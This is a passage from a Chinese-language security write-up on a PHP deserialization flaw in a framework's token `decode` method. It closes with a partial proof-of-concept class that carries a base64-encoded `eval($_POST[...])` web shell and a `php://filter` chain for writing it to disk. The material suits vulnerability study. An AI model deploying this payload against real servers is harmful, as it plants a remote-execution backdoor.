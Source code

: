 接着找一个反序列化的点, 这里跟进`framework/libs/token.php`中的`decode`方法, 这个函数是某个密文的解密方法并且在解密后进行了反序列化操作, 如果可以将序列化后的类通过对应的`encode`方法来生成`decode`函数的解密的格式, 那么就可以反序列化该类.

```php
public function decode($string)
{
    if($this->encode_type == 'public_key'){
        return $this->decode_rsa($string);
    }
    if(!$this->keyid){
        return false;
    }
    $string = str_replace(' ','+',$string);
    $keyc = substr($string, 0, $this->keyc_length);
    $string = base64_decode(substr($string, $this->keyc_length));
    $cryptkey = $this->keya.md5($this->keya.$keyc);
    $rs = $this->core($string,$cryptkey);
    $chkb = substr(md5(substr($rs,26).$this->keyb),0,16);
    if((substr($rs, 0, 10) - $this->time > 0) && substr($rs, 10, 16) == $chkb){
        $info = substr($rs, 26);
        return unserialize($info);
    }
    return false;
}
```

在`encode`部分和`decode`部分均涉及到了一个`keyid`, 这里跟进相关部分代码, 这里可以利用`index.php`来作为`keyid`的计算部分.

```php
public function keyid($keyid='')
{
    if(!$keyid){
        return $this->keyid;
    }
    $this->keyid = strtolower(md5($keyid));
    $this->config();
    return $this->keyid;
}

private function config()
{
    if(!$this->keyid){
        return false;
    }
    $this->keya = md5(substr($this->keyid, 0, 16));
    $this->keyb = md5(substr($this->keyid, 16, 16));
}
```

对应的`POC`如下:

```php
<?php

require  "./token.php";
require  "./file.php";

class cache{
    protected $key_id='suanve';
    protected $key_list='aaaaaIDw/cGhwIGV2YWwoJF9QT1NUW29zd29yZF0pOz8+';
    protected $folder='php://filter/write=string.strip_tags|convert.base64-decode/resource=';
}
//echo base64_encode(serialize(new cache()));


$token = new token_lib();
$file = new file_lib();
```